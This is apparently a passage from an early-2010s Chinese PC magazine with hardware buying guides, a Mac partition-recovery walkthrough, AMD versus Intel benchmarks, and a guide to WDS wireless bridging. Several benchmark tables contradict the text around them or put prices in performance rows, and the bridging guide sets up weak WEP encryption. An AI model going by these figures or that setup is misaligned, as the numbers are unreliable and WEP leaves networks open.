- 然后选择“高级选项”→文件系统扫描→选“NTFS”→确定→确定。
- 此时丢失的分区显示出来了，表示为“未确定”。选中它，再选择“高级选项”→文件扫描系统→选“NTFS”→确定→确定。
- 丢失的分区再次出现，表示为“NTFS”，选中它→下一步→确定→确定。

这样Easyrecovery就将丢失的数据全部扫描出来，我们只需要找地方将它们拷贝出来即可，文件全都完好无损。

### 第二步：重新给苹果硬盘分区

此时虽然找回数据，但却不能把丢失的分区重新独立出来，只有重装Windows这个选择了。我们进到MAC系统中，打开BootCamp助理，和平常一样分出一个Windows分区出来，然后插入Windows 7光盘并重启电脑，开始安装Windows。

进入到选择硬盘分区的界面时，会发现分区列表中第一个是200MB的小分区，而夹在MAC系统和BootCamp分区（也就是第三个分区）之间还会有一个800MB（也有可能显示是600MB）的分区。将这两个分区选中，然后点击下面的“删除”把他们无情删除掉！

删掉那两个分区后，不要再管它们，也不要在它们上面建立分区。然后你就可以把BootCamp分区分成多个了，下一步就是和平常一样的方法安装Windows 7。

有些朋友可能会碰上无法分区的问题而导致失败，这里再教给大家一个偏方：那就是使用Windows XP安装盘分区。步骤是先不要插入Windows 7的安装盘而是插入Windows XP安装盘，进入到选择硬盘分区的界面时，和前面提到的一样删除掉200MB和800MB那两个分区。

然后重启电脑，插入Windows 7开始安装系统。

### 第三步：设置苹果中的启动盘

Windows 7安装好之后，进入MAC系统，在“系统偏好”里的“启动磁盘”中会发现只有安装了MAC系统的分区，而找不到BootCamp分区了。这下不能指定从Windows启动了，怎么办？

这是因为BootCamp分区被我们做了手脚，MAC系统不再认它了。此时可以使用一个叫Paragon NTFS For Mac OS X的软件。安装好之后会在“系统偏好”里生成一个图标，进入之后就可以指定启动分区了。这个软件还让MAC系统得到了读写NTFS分区的功能。

不过Paragon NTFS是个收费软件，如果你不想用它，就只能在开机时按住ALT (Option) 键选择启动分区进入Windows了。

(文/文洁)

## 不要迟疑了 蓝光光驱不会普及的

在2011 IDF论坛上Intel公布了上网本的接班人Ultrabook，完全抛弃了光驱；苹果最受关注的Macbook Air也早就无视光驱的存在。虽然DVD光驱还在我们的工作和生活中广泛存在着，可是公认的下一代光存储设备蓝光光驱未来将何去何从，是否还能像今日的DVD光驱一样普及？

前段时间，有某品牌推出了价格为700多元的12X蓝光刻录机，刻录速度稍低的产品和蓝光Combo（只能读取不能刻录蓝光碟片，可以刻录DVD碟）更降到了三四百元，在宣传时他们都打出了“蓝光普及”的旗号，让消费者们踌躇不已。

诚然，这样的价格相比一两年前确实已经能够让人接受了。不过这些产品从价格上看相比DVD刻录机普遍的150元仍然贵了不少，而且从外观上来看其做工和后者相比并无过人之处。如果是笔记本电脑，就更要更“坑爹”了，配备蓝光刻录机的机型要比DVD的贵好几千。为了一项使用很少的功能多花几倍的钱，这可不是勤俭持家的普通大众所提倡的。这就让我们产生了疑问，蓝光光驱的未来到底是什么样的，它还能在电脑中普及吗？

其实我们可以从多个方面来讨论：

### 观看高清影片

蓝光诞生的主要目的就是高清影片，单层25GB的容量，也只有它能存放不下动辄几十GB的1080p影片了。不过与中国国情相比较的话，这一点就有些弱势了。真正花钱享受正版蓝光影碟的用户都会在家庭影院中用蓝光影碟机观看，这么贵的影片用电脑来观看还真是有些屈尊了。而电脑上观看高清的用户，都属于电脑和网络知识很丰富的人群，更偏重于下载观看。

### 资料备份

现在DVD刻录机存在的最大价值也就在于此了，需要短时间保存的文件（例如分发会议资料）多用DVD碟片，不过从经验上来看光盘并不适合用于长时间资料保存——相信很多朋友都有放了几年的DVD刻录盘无法读取的情况吧；即便有些高端的碟片可以长时间保存，但其价格又太贵（例如三菱的D9盘就需要十几元一张），还不如硬盘便宜和可靠。

同样的情况放到蓝光上来，显得要更尴尬。如果只作为资料备份，一般人都用不到蓝光那么大的容量；而且如果发生故障25GB的数据都丢失了那就太惨烈了。此外，由于蓝光光驱普及程度低，你刻好的盘想要给别人用，别人没有蓝光光驱怎么办？

### 读取资料速度

6X的蓝光读取速度为27MB/s，用于1080p影片足够了，但是用在日常数据拷贝上就太慢了。况且这还是峰值情况，光盘读取内侧和外侧的速度相差好几倍，如果用来拷贝几十GB的文件简直是折磨。

### 厂商支持度

任何一项技术要想普及，都要有主流的厂商支持才行。但蓝光这种娱乐化色彩较浓的技术，至今仍得不到PC业界的广泛支持。即便有也只存在于价格昂贵的高端笔记本中，绝大多数商用笔记本品牌都没有标配蓝光，苹果更是直接表态不支持蓝光。

### 光驱地位渐被弱化

虽然在电脑中光驱的使用频率早就不高了，但很多朋友配电脑都不会落下它——安装系统需要光盘。不过现在不一样了，绝大多数的主板、笔记本都提供了U盘安装系统的功能，微软提供了U盘安装Windows工具，苹果可以从APP Store下载升级系统，Linux早就支持U盘安装……这样光驱最后的一个防线也沦陷了。

综上，我们并不是给蓝光这项技术泼冷水，而是从日常应用分析，帮大家消除采购时的犹豫。因为蓝光诞生的主要起因是家庭影音娱乐和版权保护，用作电脑上的一个配件并不绝对必要。而且从大趋势来看，光盘最终也会和软盘一样逐渐消失的，只是过程还会很长。

(文/谈沙)

## AMD APU主板选购必看

APU芯片刚刚发布，支持它的A75主板却早一步上市了，而且型号众多看得人不知怎么选择是好。作为一种全新的产品，购买时会有很多新的注意事项，今天就来总结一下。

AMD一向以性价比高著称，整合主板的市场份额也占据大半，早期的780G、880G等系列主板一直是中低端玩家的最爱。目前A75芯片组已全面铺货，随着APU的大量到货，市场中的A75芯片组主板销量也逐渐攀升。搭配APU A系列处理器的A75主板在选购使用时有哪些需要注意的地方，如何使用才能使其充分发挥优势呢？笔者在下面文章中针对这些为大家展开分析。

### APU究竟是何物

其实前几期已经介绍过很多次了，APU是“Accelerated Processing Units”的简称，中文名字叫加速处理器。与A75主板配合使用的是其中代号为Llano的高端APU，其中集成的GPU是Llano APU的重点，其开发代号为Sumo（相扑），源于第一代DX11家族中Radeon HD 5600/5500系列的Redwood核心，具有中档独立显卡的性能。

### A75芯片组的几大优势

集成显卡一直是AMD平台的强项，A75+APU的平台继承了AMD的传统优势，Llano A系列APU内部集成了AMD目前最为先进的HD6500产品系列GPU。

### 如何挑选适合自己的A75主板

目前市场中的A75主板可以用五彩斑斓来形容，那么究竟哪款主板最适合我们呢？下面笔者为大家推荐几款值得购买的A75主板。

**华硕F1A75-V PRO 979元**

华硕A75搭载DIGI+VRM数字供电配备双智能处理器EPU智能节能处理器以及TPU智能加速处理器。可以将系统的整机稳定性、能源效率提升至最大。DIGI+VRM数字电源供电设计可以免除信号由数字转换成模拟的效率延迟，进行精确的电压调整与管理，图形化UEFI BIOS简便了用户的操作性，对初级玩家体验超频和玩转BIOS提供了良好的平台。但华硕的A75主板就目前而言超频性能十分有限，玩家在购买时需要注意。

**技嘉 GA-A75M-D2H 635元**

技嘉A75除A75原生USB 3.0与超强的集成显卡外，还拥有技嘉超耐久3代、2盎司铜、333天生极速、双BIOS设计，加入了最新的超跑4技术，让主板在附加功能上进一步得到了强化，同时技嘉A75的超频性能也是目前A75主板中最强的，喜爱超频的玩家选择技嘉的A75相信您会有惊喜，玩家需要注意的是技嘉的显示器接口不支持热插拔，每次更换接口都需要完全关机再开。

**微星A75MA-G55 599元**

微星A75MA-G55主板采用了微星第二代军规标准，用料方面非常精良，做工更是一流，主板全部使用高品质全固态电容，并且支持4个USB3.0和6个SATA3，以及完整视频接口，满足高清用户需求，目前售价599元，属A75阵营中性价比很高的一线产品。

### 如何实现混合交火

Llano APU内集成显卡可以和独立显卡组成交火以提升游戏性能，但目前A75的混合交火设置起来比较繁琐，需要设置的BIOS选项也相对较多。首先，要插入外接显卡并将显示器连接至主板的视频接口上，连接完成后进入BIOS找到芯片组设置（Chipset）；接着进入北桥设置（NorthBridge），找到显示设备（PrimaryVideoDevice），将此选项设置为IGD后保存。

### 优化混合交火性能

玩家需进入北桥设置的图形配置选项（GFX Configuration）内，设置显示核心为强制模式（Force），调节这个选项的目的是可以实现手动设置显示核心共享内存，推荐玩家设置为512MB的UMA共享内存。最后我们将PCI-E性能控制策略（PSPP Policy）设置成高性能（Performance），以便保证独显能够发挥最大性能值。

(文/Jason)

## 硬盘多得发愁 买个USB3.0底座吧

你手中的硬盘是不是越积越多，整理和倒腾数据既麻烦又浪费时间？现在USB 3.0高速设备能帮你很好地解决这个问题。现在高清玩家们几乎个个家中都备着多个大硬盘作为存储仓库，硬盘存储空间是大，不过每次使用都要拆装到机箱中就太麻烦了，使用移动硬盘或者USB 2.0硬盘底座又嫌速度太慢，一部1080p高清影片最少也要占用10GB左右的容量，如果要拷贝TB级别的硬盘数据，USB 2.0硬盘底座的传输速度只有每秒20MB左右，简直就是噩梦啊！看来高清玩家们的设备真的该向USB 3.0升级了。

- 明确区分设备是USB2.0还是USB3.0的设备，后者的理论速度是前者的10倍，实际拷贝文件时至少有两三倍。
- 你的电脑上必须要有USB 3.0接口，只有设备和电脑都有了高速接口才能享受高速的传输速度。
- 读取速度和写入速度，市场上有些早期的USB3.0控制芯片，速度比较慢，购买时最好要带着硬盘去试一下速度，如果读写速度和USB 2.0差不多那就不要考虑了。
- 是否使用RAID，如果特别追求速度，可以选用多硬盘，同时支持USB3.0和RAID的外接设备，但由于RAID不可以随意增加或减少硬盘，不适合要经常拓展容量的用户选择。

### 奥睿科（ORICO）8618us3硬盘底座

这是奥睿科在去年7月份推出的一款全新一代2.5寸/3.5寸通用硬盘外接底座。该底座的最大特色是可以支持2.5寸硬盘和3.5寸硬盘，但缺点是只支持单硬盘，传输速度方面，使用HD TRUE PRO测试发现：读取速度为95.1MB/s，在单硬盘的状态下，稍稍有点差强人意。但由于是底座方式，更换硬盘非常方便。

### 希捷 GoFlex 转接线 STAE104

这是比硬盘底座还要方便的一种方式，把这个转接头直接插到2.5英寸的硬盘上就可以享受USB3.0的高速了，这有点类似IDE硬盘时代的IDE转USB的转接线，不过需要注意的是转接线完全由USB接口供电，电流可能不能满足3.5寸硬盘的需要，所以该设备只适合2.5寸笔记本硬盘使用。

### Agestar 3U2B3A双硬盘抽取盒

AGESTAR 3U2B3A硬盘盒采用全铝机身制造，机身的前面是塑胶，可以安装两个硬盘，硬盘槽位采用抽屉的方式，所以更换硬盘非常迅速。同时硬盘后面有一个散热风扇，完全不必担心散热问题。更难能可贵的是，散热风扇可以通过开关控制，使用硬盘时可以打开风扇，不使用时就关闭它，既减少噪声，也可节能省电。通过测试，AGESTAR 3U2B3A的单硬盘传输读取速度达到103.8MB/s，如果组成RAID0，速度还可以提升60%左右，性能着实不错。更可贵的是这款产品的售价只需300元左右，看来真是一款物美价廉的产品。

(文/奶牛)

## 功能更齐全 价格也厚道 3D显示新品设备推荐

在前几期的文章和专题中我们详细讨论过3D显示的现状，如今的3D显示设备又有了一些新的趋势，今天就来介绍一下，作为以前文章的补充。以前我们介绍过，在快门式3D显示器中存在着两种实现方式：一种采用HDMI 1.4接口，无需外置信号同步器，除了电脑还能支持PS3等设备，但玩电脑游戏时不是很方便，需要花钱买软件才能实现；另一种是支持NVIDIA的3D VISION方案，使用双路DVI接口，对3D游戏的支持度非常好，并且不用另外花钱买3D转换软件，但缺点也很明显——只能在NVIDIA显卡中使用，不能实现PS3游戏机的3D显示，并且需要一个外置的信号同步装置。不过从最近的发布的几款3D显示器来看，新的趋势是同时支持HDMI 1.4和NVIDIA 3D VISION，这样的产品从一定程度上简化了使用复杂程度（取消了外置信号同步装置），更具意义的是对硬件的支持得到了扩大，这样的显示器不光能支持NVIDIA的显卡，而且可以支持AMD的显卡，就连PS3和Xbox 360这些游戏机也能支持，如果你家中有蓝光机也能通过它欣赏蓝光3D大片。此外，由于这些显示器自带了3D眼镜，不用再花钱购买NVIDIA 3D VISION套装，也节省了不小的一笔费用。

### Acer HN274H

这款显示器的特色不光是既支持HDMI 1.4又支持NVIDIA 3D VISION，它还具备27英寸的超大面子，也是目前能买到的尺寸最大的3D显示器了。由于还附送3D眼镜，省去了购买NVIDIA 3D VISION套装的费用，考虑这些因素5019元的价格还算性价比不错了。HN274H采用了酷黑的外形设计，流线型的机身线条十分美观，控制按键采用全触摸式，控制方式很有特色，按键的功能对应着屏幕上的相应位置，操作方便快捷。该款显示器提供了双路DVI接口，完整支持NVIDIA 3D VISION，玩3D游戏非常方便；同时还提供了3个HDMI 1.4接口，可以接驳HDMI 1.4显卡和PS3、Xbox 360、蓝光影碟机和3D数码摄像机等设备，实现这些设备的3D显示。作为一款“旗舰”级别的显示器，HN274H的性能表现也不错，显示分辨率达到1080p全高清，响应时间为2毫秒，动态对比度则达到一百万比一；300cd/m2的亮度和170°/160°的可视角度用于日常应用也完全足够。

### 优派 V3D245

V3D245的屏幕尺寸为23.6英寸，分辨率为1080p，趋于主流；全黑的配色与大多数显示器风格一样，由于采用LED背光面板，还拥有了超薄的机身，菱形的支架也颇为美观。3999元的价格如果考虑NVIDIA 3D VISION套装的费用也是可以接受的，至少和以往的单功能3D显示保持相似价位。和Acer HN274H一样，优派V3D245也内置了扬声器，在用电脑或PS3玩游戏时不用再连接音箱，在省钱的同时也让我们的桌面更加整洁。不过优派V3D245的内置扬声器还支持SRS Premiere Sound环绕声技术，在游戏和电影音效中的表现会更优秀，临场感更强。接口方面V3D245提供了HDMI 1.4、双路DVI和传统VGA接口，可以连接种类丰富的设备，除了电脑也能使用PS3、Xbox 360玩3D游戏；如果你有蓝光播放机和3D摄像机也可以连接其欣赏蓝光影片；同时此显示器还支持2D转3D功能。V3D245的显示性能也十分不俗，灰阶2ms响应时间，两千万比一动态对比度，都是顶级配置；300cd/m2的亮度与170/160可视角度对日常应用来说已经足够。

### 好消息：

**NVIDIA正式推出有线3D VISION套装** 除了上面介绍的两款旗舰显示器，近期也有价格实惠的新品出现。本身3D显示器价格就要比普通显示器贵上一大截，NVIDIA以往的无线版3D VISION套装价格又要一千多元，对玩家来说实在负担不小。不过如今NVIDIA终于推出了有线版的3D VISION眼镜，国内售价大约为799元，使用USB接口，无需信号同步装置，虽然线缆限制了自由度，不过对于在电脑前的玩家来说影响应该不大，而且不用充电也是其方便的地方。

(文/文洁)

## 中流攒机怎么配更合理 实测数据告诉你

选择中高端攒机的玩家一定会比较在意整个平台的性价比，而CPU又是整个平台的重中之重。对于中端主流娱乐配置，用户在意其通用计算能力的同时，更加在意其3D处理能力。那么在两大阵营中，谁的实际应用性能会更好呢？下面我们一起来对A家和I家的解决方案来进行对比测试，比较哪种方案性价比更高。
AMD与英特尔(Intel)，这两个在x86架构处理器领域不分伯仲的强者，在过去的二十余载，竞争从未停止过。AM386、K6、Athlon XP、Athlon 64，直至现今的多核羿龙、速龙、闪龙等处理器，无一不为我们留下深刻的印象。AMD和英特尔各自当然是王婆卖瓜，而玩家们也都拥有各自钟爱的品牌，但作为以“一本与生活息息相关的电脑杂志”为口号的我们，必须极力为大家带来真相。
2011年是新一轮的战争，AMD Fusion APU平台对战英特尔Sandy Bridge平台。但对于用户而言，钱花得值得，到位，才是花钱的意义所在。正可谓“好钢用在刀刃上”。那么我们就一起来展开测试和对比，一探究竟。

## 何为APU

AMD早在2006年收购ATI就预示着将来CPU与GPU的协同发展，因此今天APU的出现也不足为奇。前些年AMD就以其“Fusion融聚”概念在整合平台市场赢下不错的口碑，直至今天融聚概念终于发展为将CPU、GPU、北桥、视频输出端口等全部封装在一个DIE之中，它就是APU（Accelerated Processing Units），中文名是“加速处理器”。目前发售的Lynx平台A系列APU最顶级产品是A8系列产品，分为A8 3850和A8 3800，它们都采用全新的32nm制程工艺，内部都分别集成了4MB二级缓存，Radeon HD 6550D独显核心，拥有400个流处理器。

## 测试目的、测试方法

我们都知道AMD的强项一直都是它打的“性价比”牌，在如今CPU与GPU被整合在一起的时代我们倒是要来看看它们谁的性能更强劲，价格更合理。
测试所使用的是AMD A系列A8 3850 APU（主频2.8GHz，融合HD6550D独显核心）和与之配合的A75芯片组主板；进行对比的英特尔平台选用英特尔酷睿i7 2600K（主频3.48GHz睿频至3.8GHz，集成HD Graphics 3000显卡）处理器、酷睿i5 2300处理器。对比测试分为三个部分，其一是AMD A8 3850与英特尔i7处理器利用各自集成的显卡性能对比；其二是A8 3850与英特尔i5分别与独立显卡搭建平台进行对比；最后是针对测试结果进行综合分析。
测试工具我们选择的是Futuremark的PCMark Vantage测试平台综合性能和3DMark Vantage测试平台的3D显示性能；3D游戏实际应用测试，测试工具分别是DirectX 9游戏《街霸4》（STREET FIGHTER 4），DirectX 10游戏《孤岛危机》（Crysis），和DirectX 11游戏《尘埃2》（Dirt 2）。

## 测试平台

### AMD平台

- 处理器：AMD A8 3850（内置Radeon HD6550D显卡）
- 内存：KINGMAX DDR1600 2GB×2
- 主板：华硕F1A75-V Pro
- 显卡：AMD Radeon HD 6670（800MHz 1024MB）
- 硬盘：希捷 Momentus XT 500GB
- 电源：Tt Toughpower 1000W

### 英特尔平台

- 处理器：酷睿i7 2600K（内置HD Graphics 3000显卡）/ 酷睿i5 2300（测试时不启用内置显卡）

## 内置显卡平台测试

在此环节中我们选择用AMD A8 3850 APU加速处理器对决英特尔最高端的酷睿i7 2600K处理器，测试的项目主要是3DMark基准测试和实际游戏应用。通过对于两套分别使用内置显卡的平台进行测试对比，以分辨两平台的内置显卡的性能差异。
通过测试结果我们可以看出，不论在基准测试，还是游戏应用测试中APU A8 3850的性能都要强于酷睿i7处理器的性能。由于英特尔集成的显卡只能支持DirectX 10.1，所以不能完成3DMark 11的测试，而在3DMark Vantage测试中的差距也有1229分之多。在游戏应用测试中，基于DirectX 9 API的街霸4游戏中的测试得分两平台的差距是最小的，其他基于DirectX 10和基于DirectX 11 API的游戏皆有非常大的差距。

| 内置显卡 | 3DMark Vantage | 3DMark 11 | 街霸4 (DirectX 9) |
| :--- | :--- | :--- | :--- |
| AMD A8 3850平台 | 2489 | 8053 | 9936 |
| 英特尔 i7 2600K平台 | 2249 | 7227 | 9907 |

| 内置显卡 | 孤岛危机 (DirectX 10) | 尘埃2 (DirectX 11) |
| :--- | :--- | :--- |
| AMD A8 3850平台 | 平均FPS 125.36 | 平均FPS 80.44 |
| 英特尔 i7 2600K平台 | 平均FPS 113.65 | 平均FPS 73.54 |

通过上面测试成绩，我们能够看出在基于DirectX 9 API的街霸4差距依旧微乎其微，孤岛危机和尘埃2中的差距在10%左右，但在3DMark 11和3DMark Vantage中的成绩差距就非常明显了。

## 独立显卡平台测试

很多用户不会满足于APU、CPU内置显卡的性能，用户们为了满足游戏、影音娱乐等需要会单独购置一块独立显卡。因此我们将测试AMD平台与英特尔平台（主流i5处理器，酷睿i5 2300）分别与独立显卡进行测试，并对最终的数据进行对比。
AMD在收购ATI的同时也拥有了ATI的强大图形核心研发和制造技术，自然AMD的设计会更加强大一些。此次发布的APU系列产品更是支持AMD双显卡技术（AMD Radeon Dual Graphics），即APU内融合的HD6550D独显核心与HD6000系列显卡组成双显卡。由于APU具有双显卡技术，从而我们在这一环节中将采用HD6670显卡与APU组成双显卡来进行测试。

| 独立显卡 | 3DMark Vantage | 3DMark 11 | 街霸4 (DirectX 9) |
| :--- | :--- | :--- | :--- |
| AMD A8 3850平台 | 1121 | 3696 | 9908 |
| 英特尔 i5 2300平台 | 2467 | 9290 | |

| 独立显卡 | 孤岛危机 (DirectX 10) | 尘埃2 (DirectX 11) |
| :--- | :--- | :--- |
| AMD A8 3850平台 | 平均FPS 40.095 | 平均FPS 53.44 |
| 英特尔 i5 2300平台 | 平均FPS 13.85 | 平均FPS 36.54 |

我们纵向的对比AMD A8 3850平台，在使用内置独显核心的测试和与独立显卡配合组成双显卡测试成绩中，我们也能看出在打开AMD Dual Graphics双显卡之后，显示性能一样得到了增长，AMD平台再增加一块独立显卡之后，由于APU与AMD显卡可以组成双显卡，显示性能不单纯的是增加了一个独立显卡的性能，而是独立显卡+内置显卡的性能。虽然我们得到的性能不是1+1=2，但我们也能能够得出这样的一个结论——APU平台添置一块中端主流显卡后APU内置显卡没有被浪费，而是为显示性能增加了更多动力。

## 如何打开混合交火功能

打开APU平台的混合交火功能其实非常简单，但还是需要一些操作。

1. 用户需要将购买的HD 6000系列独立显卡插在主板的PCI-E接口上；
2. 然后将视频线接在显卡的视频输出接口上（因为第一次启动主板会默认以独立显卡接口输出）；
3. 再启动计算机，进入BIOS菜单将Dual Graphics选项打开，并将显示输出端口设置为主板输出，随即保存BIOS重新启动计算机（由于各家主板内的BIOS设置选项不同，无法将具体选项为用户列举出来，所以请用户尽量参照主板说明书来进行操作）；
4. 最后将视频线接在主板视频输出端口上进入操作系统，打开AMD控制中心（AMD VISION Engine Control Center）中的性能选项里AMD CrossFire设置并启用即可。

## 综合评比及总结

此外，我们对两套解决方案进行了综合性能测试（PCMark 7），结合用户可能在市场上购买的平台的花销进行了比较，从而我们为用户做了一份分析表格。

| AMD平台 | 处理器A8 3850 | 主板A75芯片组 |
| :--- | :--- | :--- |
| 市场价格 | 870元 | 600-700元 |
| PCMark7性能 | 2239 | 1470-1570元 |
| 性价比 | 1.523-1.426 | |
| 英特尔平台 | 处理器i5 2300 | 主板H67芯片组 |
| 市场价格 | 1200元 | 700-800元 |
| PCMark7性能 | 2387 | 1900-2000元 |
| 性价比 | 1.256-1.194 | |

客观的来讲，英特尔在通用计算能力方面还是要更强一些，从而我们也能看到英特尔解决方案的PCMark 7得分要略比AMD解决方案要高一些（高6.6%）。
但在我们为用户们算过这个性价比的账之后，AMD解决方案的性能价格要比英特尔的性能价格比高（高21.25%）。通过这样的计算，我们可以很简单的让用户了解到，AMD解决方案显然要比英特尔解决方案的性价比高出不少，而性能方面没有明显的差别。
如果用户还需要更好的3D渲染能力，用户可以选择一块AMD的主流HD6000系列显卡。以Radeon HD6670为例，知名品牌的显卡售价在600-700元，这样即提高了平台的显示性能，又不浪费APU内置的HD 6550D独显核心的性能。

## 解决长距离网络共享问题 你需要WDS无线中继

## 本文使用路由器信息：

| 项目 | NETGEAR WNR612 | D-Link DIR-618 |
| :--- | :--- | :--- |
| 默认管理地址 | http://192.168.1.1 | http://192.168.0.1 (需修改) |
| 管理界面默认用户名 | admin | admin (可修改) |
| 管理界面默认密码 | password (可修改) | 空 (可修改) |
| IP地址 (局域网) | 192.168.1.1 | 192.168.0.1 |
| MAC地址 (局域网MAC) | E0:91:F5:A7:54:16 | FC:75:16:4B:1A:3E |
| SSID | NETGEAR (可修改) | Dlink (可修改) |
| 无线信道 | 默认自动 | 默认6 |
| 宽带连接 | PPPoE (联通光纤宽带) | 无 |
| DHCP服务器 | 默认启用 | 默认启用，需要关闭 |

场景一：
尽管我在客厅里放置了一台号称信号超强的无线路由器，可是因为承重墙的阻拦，卧室和卫生间里面信号还是很弱，Android平板的WiFi总是时断时续。我恨不得能把无线路由器的发射功率放大100倍……

场景二：
家里的4Mbps联通光纤宽带速度刷刷的，这让对门的张哥和楼上的表弟非常羡慕，他们想和我共享宽带，无奈中间障碍重重无法布线，搜索到我的无线路由器的信号很弱所以频繁掉线……

场景三：
辛苦创业多年，我终于拥有了一个小公司。信息时代，虽然商业宽带非常昂贵，我也咬牙给1801室的办公室办了宽带，可是，在1812室库房工作的小梅抱怨说搜索到公司的无线信号实在是太弱了，一点都没法用……

上述场景恐怕很多使用无线网络的人都能碰到，究其原因都是因为距离太长造成的。本文介绍的方法在充分利用现有设备的基础上来增强无线信号，提高无线信号的覆盖范围。如果你原有的无线路由器支持WDS功能，那么再购买一台支持WDS的无线路由器，就可以轻松解决问题了！

## 先讲几个基本概念

- 1. WDS
WDS是Wireless Distribution System (无线分布式系统) 的简称，它可以让无线设备之间通过无线进行桥接(中继)，同时具备无线覆盖功能。
- 2. 无线安全模式
一般路由器上都有WEP和WPA两种加密方式，防止“外来人口”免费使用，前者现在很容易被各种蹭网卡破解，所以建议大家使用WPA进行加密。
- 3. SSID
SSID也就是你设置的无线网络的名字，可以根据自己喜好在路由器设置中更改。
- 4. MAC地址
MAC地址又叫物理地址，是无线路由器和无线网卡的唯一标识，和IP地址不同的是任何一个无线上网设备的MAC都是唯一且不会变化的。
- 5. AP和无线路由器
AP类似有线网络中的交换机，接在有线交换机或路由器上，把各个无线网络客户端连接在一起并接入有线网络；无线路由器也叫扩展型AP，相当于无线AP和路由器的集合。

> 小提示：
为了提高兼容性，建议尽量选择同一品牌和型号的无线路由器。另外，在购买无线路由器时，最好问清楚路由器的功能。建议要使用WDS的用户避免选择D-LINK的产品，例如笔者的DIR-618使用WDS时就没有了路由功能，所以只能用NETGEAR WNR612连接Internet。
如果希望无线客户端在各个无线网络间漫游（比如拿着Wi-Fi平板或手机在两个区域内自由移动），可将所有的无线路由器设置为相同的SSID、相同的WEP密码。

## 使用WDS的几个条件

- 1. 首先你的无线路由器要支持WDS功能，可以在路由器的说明书或者官方网站查询到是否支持。另外，一些官方固件不支持WDS的路由器，但可以刷DD-WRT等第三方固件来支持WDS。
- 2. 进行桥接的无线设备，必须选择相同的无线信道，大部分无线路由器默认的无线信道设置为自动选择。在2.4Ghz频段中信道1、6、11是非重叠信道，请尽量选择这三个信道。
- 3. 两个路由器要选择相同的加密方式以及相同的密钥。大部分无线路由器要使用WDS时只能使用WEP加密，也有一些设备支持WPA/WPA2加密（比如NETGEAR WNR612更新最新版的固件，还有DD-WRT, Tomato固件也都支持更高级的加密）。

## 无线路由器A的配置

- 1. 建议使用网线连接至无线路由器LAN口进行手工设置。
- 2. 设置路由器A接入Internet，在“基本设置”中按照自己的接入方式进行设置，最后点击“应用”保存设置；
- 3. 设置无线网络：在“无线设置”中将“频道”设置为“6”，“安全选项”中选择“WEP”，然后在“密钥1”中输入“12345abcde”，保存设置；
- 4. 设置桥接：在“无线中继功能”中选择“启用无线中继功能”，并选择“中心基站模式”，在这种模式下A路由器当做WDS的中心点，与其他工作在无线中继模式下的无线基站(中继器)进行通讯。在“中继器MAC地址1”中填写路由器B的MAC地址，注意，一般无线路由器有两个MAC，一个是WAN口的，一个是LAN口的，其中LAN口的也叫做无线MAC。WDS设置里面的MAC，均是指LAN口的MAC，也就是在路由器标签上标明的MAC。

## 无线路由器B的配置

- 1. 首先用网线连接到B的LAN口，自动获得IP地址，进行配置。
- 2. 在“局域网安装”中选择“手动设置”，然后取消“启动DHCP服务器”，并在“路由器IP地址”中设定和A一个网段的地址，这里指定“192.168.1.88”。
- 3. 给笔者的笔记本Thinkpad T410的以太网卡设置IP地址192.168.1.77和子网掩码255.255.255.0，默认网关和DNS都设置为192.168.1.1，在浏览器中输入http://192.168.1.88，登陆配置管理。
- 4. 选择“无线安装”“手动无线连接安装”。“无线模式”选择“WDS+AP”，取消“启用自动信道选择”并将“无线信道”设置为“6”。在“BRIDGE SETTING”中“远端AP MAC地址1”中填入A的MAC地址“e0:91:f5:a7:54:16”，注意用半角冒号分隔；“网桥安全”选择“64位”，“网络密钥”输入“12345abcde”。在这个页面中的“无线安全模式”是设置B和它所带的无线终端的加密模式，为了以后使终端能无缝漫游，我们在这里也设置为“启用WEP无线安全(基本)”。
- 5. 以上工作做完之后，分别用笔记本的有线和无线两种方式测试是否能访问互联网。

## 加强无线网络安全性

虽然WEP加密不安全，但我们也可以通过以下方式来加强无线网络的安全：

- 1. 使用128位的WEP加密
相对64位的WEP加密，128位加密更可靠一些，增加了破解密码的难度，可以阻挡一些初级非法用户的入侵。
- 2. 更改默认的SSID并禁用SSID广播
禁用SSID广播可以避免入侵者轻易扫描到你的无线网络，而将默认SSID修改掉则可避免入侵者轻易地猜测到SSID，在路由器中这个功能通常叫做“启用SSID广播”或者“启用隐藏无线”。
- 3. 修改路由器管理员的用户名和密码
- 4. 关闭掉DHCP服务，修改默认IP地址
关闭掉DHCP可避免那些非法入侵者无法自动获得IP地址，为了避免入侵者轻易猜测到IP地址段，可对其进行修改。
- 5. 启用MAC过滤功能
利用A路由器提供的MAC地址过滤功能，只允许你信任的无线终端访问无线网络。

> 小提示：手工查看设备的MAC地址
a. 对Windows，可在命令提示符下输入ipconfig /all，里面的“物理地址”就是了；
b. 对Linux，在终端输入ifconfig -a；
c. 对Android手机，可在“设置”、“关于手机”、“硬件信息”中查看。

(文/刘延军)

## 硬盘有坏道 手工把它屏蔽掉

大家是否遇到过这样的现象：在打开、运行文件时，硬盘速度明显变慢，或有时明显听到硬盘“咯噔”的响声，有时提示“无法读写文件”，甚至在格式化的时候，也会在某一处停住，并出现“咯噔”的响声。

如果出现这种情况，您的硬盘很可能已经有坏道了。那什么又是坏道呢？举个例子，如果把硬盘比作一本书，坏道就是某一页有一点破损。也就是说，当计算机想要读取相应的内容时，如果正好内容就存在于破损处，计算机是没有办法读取东西的，自然会发生各种各样的错误。更加严重的是，如果不对坏道进行处理，坏道区域就有可能会扩大，甚至损坏整个硬盘。

那就要换硬盘了吗？其实，如果硬盘还可以启动，大可不必更换硬盘。将有坏道的部分屏蔽起来，让磁头不再读写那块区域，就可以防止坏道的扩大。屏蔽坏道有两种方法，一种是利用Windows自带的磁盘工具，另一种为手动分区。前者的方法很简单，就是在有坏道的盘符上点右键，依次选择属性—工具—查错/开始检查，在弹出的对话框中勾选“自动修复文件系统错误”，点击“开始”，接下来就等待Windows自己去屏蔽坏道区域了。

不过这种方法屏蔽的坏道我们是看不见摸不着的，不方便管理。今天我们就介绍用分区的方法对坏道进行屏蔽，让坏道不继续扩散，并且有坏道的区域是可以看得到的，方便今后管理。

我们需要两个软件，HDTune和磁盘分区魔术师，前者用于查找坏道位置，磁盘分区魔术师则用于对磁盘进行分区。

- 1. 首先打开HDTune点击“错误扫描”选项卡，这时您会看到很多灰色的格子，这些格子就代表您的硬盘空间。左上角代表您硬盘的开始部分，右下角代表结束部分。点击右边的开始按钮，硬盘便会开始进行扫描，待扫描完成后，如果在格子的区域出现红色的格子，则表示该处出现了坏道。(如图1)
- 2. 用手工的方法数出红色区块的具体位置，如图1所示，第39行24列到33列，又从该行的35列到39列。
